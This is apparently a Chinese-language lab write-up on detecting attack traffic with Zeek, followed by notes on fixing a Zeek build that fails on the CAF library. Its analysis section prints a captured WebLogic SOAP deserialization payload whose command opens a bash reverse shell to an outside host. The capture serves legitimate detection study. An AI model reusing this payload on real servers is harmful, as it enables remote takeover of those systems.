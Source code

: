 根据 `数据包大小` `目标 IP` 等信息，检查可疑流量

根据 `resp_fuids` 字段追踪到 `extract_files` 文件夹中的文件 [`extract-1721031619.297156-HTTP-FhwTjm4kJ4ayjxLYHl`](../code/lihan_code/tcpdump/test_zeek/extract_files/extract-1721031619.297156-HTTP-FhwTjm4kJ4ayjxLYHl)

在 `extract_files` 文件中找到攻击流量

```bash
# cat extract_files/extract-1721031619.297156-HTTP-FhwTjm4kJ4ayjxLYHl
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"xmlns:wsa="http://www.w3.org/2005/08/addressing"xmlns:asy="http://www.bea.com/async/AsyncResponseService"><soapenv:Header><wsa:Action>HgyotaNU26Es7IyUbzqd</wsa:Action><wsa:RelatesTo>uCWTSjSfjN8F2jJ4hi2C</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><void class="java.lang.ProcessBuilder"><array class="java.lang.String" length="3"><void index="0"><string>/bin/bash</string></void><void index="1"><string>-c</string></void><void index="2"><string>bash -c '0&lt;&amp;177-;exec 177&lt;&gt;/dev/tcp/192.168.182.130/4444;sh &lt;&amp;177 &gt;&amp;177 2&gt;&amp;177'</string></void></array><void method="start"/></void></work:WorkContext></soapenv:Header><soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```

### 问题

1. `zeek` 编译安装失败
- 在链接 `caf` 时报错 

- 原因：找不到 `caf` 库
- 解决：安装 `caf` 库或使用 `zeek` 官方提供的 [`zeek` 镜像](https://github.com/zeek/zeek-docker)
根据官网的安装指南，安装 `caf` 库

```bash
git clone https://github.com/actor-framework/actor-framework.git
cd actor-framework
mkdir build
cd build
cmake ..
make
sudo make install
# 手动创建 `actor-framework.pc` 文件
ls /usr/local/include/caf
ls /usr/local/lib
sudo mkdir -p /usr/local/lib/pkgconfig
sudo nano /usr/local/lib/pkgconfig/actor-framework.pc
prefix=/usr/local
exec_prefix=${prefix}
libdir=${exec_prefix}/lib
includedir=${prefix}/include

Name: actor-framework
Description: An Open Source Implementation of the Actor Model in C++
Version: 0.18.3  # 根据实际安装的CAF版本修改
Libs: -L${libdir} -lcaf_core -lcaf_io
Cflags: -I${includedir}
sudo chmod -R 755 /home/kali/attack_test/test1/zeek/build
sudo chown -R $USER:$USER /home/kali/attack_test/test1/zeek/build

export PKG_CONFIG_PATH=/usr/local/lib/pkgconfig:$PKG_CONFIG_PATH
export LD_LIBRARY_PATH=/usr/local/lib:$LD_LIBRARY_PATH

#再次编译 `zeek`，成功
cd /path/to/zeek/build
make clean
cmake -DCMAKE_LIBRARY_PATH=/usr/local/lib ..
cmake ..
make && sudo make install
```
